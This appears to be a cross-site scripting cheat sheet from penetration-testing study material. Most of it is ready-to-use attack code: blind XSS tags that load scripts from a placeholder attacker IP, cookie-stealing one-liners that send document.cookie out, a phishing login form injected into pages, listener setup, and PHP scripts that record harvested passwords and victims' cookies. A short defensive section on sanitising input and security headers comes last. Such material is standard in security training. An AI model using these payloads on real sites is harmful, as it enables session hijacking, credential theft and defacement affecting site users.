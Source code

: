 # XSS Security Cheat Sheet

## XSS Types
- **Stored (Persistent)**: Input stored in database, affects all users
- **Reflected (Non-Persistent)**: Input processed by backend, temporary
- **DOM-based**: Processed client-side only, never reaches backend

## Basic Testing Payloads
```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
```

## Remote Script Loading (Blind XSS)
```html
<script src="http://YOUR_IP/fieldname"></script>
'><script src=http://YOUR_IP></script>
"><script src=http://YOUR_IP></script>
```

## Session Hijacking
```javascript
new Image().src='http://YOUR_IP/index.php?c='+document.cookie;
document.location='http://YOUR_IP/index.php?c='+document.cookie;
```

## Web Defacing
```javascript
// Change background
document.body.style.background = "#141d2b"

// Change title
document.title = 'New Title'

// Change page content
document.getElementsByTagName('body')[0].innerHTML = "New Content"
```

## Phishing Form Injection
```javascript
document.write('<form action=http://YOUR_IP><input type="username" placeholder="Username"><input type="password" placeholder="Password"><input type="submit" value="Login"></form>');
document.getElementById('original-form').remove();
```

## Server Setup
```bash
# Netcat listener
sudo nc -lvnp 80

# PHP server
mkdir /tmp/tmpserver && cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

## Credential Harvesting PHP
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://ORIGINAL_SITE");
    fclose($file);
    exit();
}
?>
```

## Cookie Stealing PHP
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

## Prevention Techniques

### Input Validation
```php
// PHP
filter_var($_GET['email'], FILTER_VALIDATE_EMAIL)
addslashes($_GET['input'])
htmlspecialchars($_GET['input'])
htmlentities($_GET['input'])
```

```javascript
// JavaScript
DOMPurify.sanitize(dirty_input)
```

### Dangerous Functions to Avoid
- **JavaScript**: `innerHTML`, `outerHTML`, `document.write()`, `eval()`
- **jQuery**: `html()`, `append()`, `add()`, `after()`

### Security Headers
- `Content-Security-Policy: script-src 'self'`
- `X-Content-Type-Options: nosniff`
- `HttpOnly` and `Secure` cookie flags

## Key Concepts
- **Source**: Where user input originates
- **Sink**: Where input gets rendered/executed
- **Persistent vs Non-Persistent**: Stored in database vs temporary
- **Client-side vs Server-side**: DOM manipulation vs backend processing
